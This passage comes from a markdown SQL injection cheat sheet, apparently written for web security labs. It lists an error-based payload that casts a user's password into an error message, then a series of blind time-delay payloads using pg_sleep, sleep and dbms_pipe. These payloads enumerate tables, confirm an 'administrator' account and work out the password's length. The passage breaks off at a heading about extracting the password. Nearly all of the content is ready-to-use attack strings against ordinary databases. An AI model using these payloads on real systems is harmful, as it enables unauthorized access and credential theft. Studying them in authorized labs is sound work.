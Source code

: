 ```
' and 1=cast((select password from users limit 1) as int)--
```

<br><br><br>

#### SQLi Blind Time Delays Examples

* Encode:

    * ;   ->   %3b


* Identify if any of the below payloads cause a time delay on the application's response.  Portswigger has a cheat sheet that has more:


    * '||(select dbms_pipe.receive_message(('a'),10) from dual)||'


    * '%3b select sleep(10)--


    * '%3b select pg_sleep(10)--


<br>

* **Payload to enumerate valid tables in the database.**  In this example if the <u>table users does exist</u> then the application will sleep, if it doesn't exist then the application should respond normally:

```
'%3b select case when (1=1) then pg_sleep(10) else null end from users-- 
```


* **Payloads to identify if a user called administrator exists on the table called users:**

```
'%3b select case when (username='administrator') then pg_sleep(10) else pg_sleep(0) end from users--
```
```
'%3b select case when ((select 'TEST' from users where username='administrator')='TEST') then pg_sleep(10) else null end--
```



* **Identify the length of the password for a user called administrator:**

```
'%3b select case when (username='administrator' and length(password)>1) then pg_sleep(10) else pg_sleep(0) end from users--
```
```
'%3b select case when ((select 'TEST' from users where username='administrator' and length(password)>10)='TEST') then pg_sleep(10) else null end--
```




* **Extract the password from a user called administrator.**  The columns here are username and password.  The table is users.:
